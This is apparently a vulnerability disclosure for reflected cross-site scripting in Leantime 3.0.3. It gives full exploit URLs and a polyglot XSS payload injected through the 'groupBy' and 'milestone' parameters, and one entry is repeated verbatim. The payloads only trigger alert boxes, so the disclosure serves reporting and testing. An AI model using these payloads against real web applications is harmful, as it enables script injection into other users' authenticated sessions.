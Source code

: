 Vulnerability:

URL:  ```https://192.168.124.138/tickets/showList?currentClient=0&groupBy=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123) )%0D%0A%0d%0a</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(123)//>\x3e```

Payload: ```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123) )%0D%0A%0d%0a</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(123)//>\x3e```

Action to trigger: None

Note: The client id may need to be replaced

Version: ‎3.0.3

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter:  groupBy

Vendor Website: https://leantime.io/




Vulnerability:

URL:  ```https://192.168.124.138/tickets/showKanban?currentClient=0&milestone=140jaVasCript:/*-/*`/*\`/*%27/*%22/**/(/*%20*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E\x3csVg/%3CsVg/oNloAd=alert(%27XSS%27)//%3E\x3e&groupBy=all&groupBy=all&search=Search&projectId=3&termInput=test```

Payload: ```jaVasCript:/*-/*`/*\`/*%27/*%22/**/(/*%20*/oNcliCk=alert()%20)%0D%0A%0d%0a%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E\x3csVg/%3CsVg/oNloAd=alert(%27XSS%27)//%3E\x3e```

Action to trigger: None

Note: The projectId and client id may need to be replaced

Version: ‎3.0.3

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: milestone

Vendor Website: https://leantime.io/




Vulnerability:

URL:  ```https://192.168.124.138/tickets/showList?currentClient=0&groupBy=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123) )%0D%0A%0d%0a</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(123)//>\x3e```

Payload: ```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123) )%0D%0A%0d%0a</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(123)//>\x3e```

Action to trigger: None

Note: The client id may need to be replaced

Version: ‎3.0.3

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: groupBy

Vendor Website: https://leantime.io/



Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/leantime_3.0.3_Reflected_XSS_via_multiple_parameters.gif)
